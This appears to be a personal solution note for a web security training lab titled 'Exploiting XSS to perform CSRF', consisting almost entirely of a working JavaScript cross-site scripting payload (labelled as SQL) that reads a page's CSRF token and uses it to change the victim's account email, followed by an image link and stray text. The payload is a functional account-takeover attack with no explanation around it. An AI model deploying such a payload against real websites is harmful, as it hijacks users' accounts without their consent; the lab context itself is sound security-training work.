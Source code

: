 # Lab: Exploiting XSS to perform CSRF

```sql
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.send('csrf='+token+'&email=testo@testo.com')
};
</script>
```

![Untitled](Lab%20Exploiting%20XSS%20to%20perform%20CSRF%2012cfab5460ec80c0af1cfdfb15478b1c/Untitled.png)

fdfsd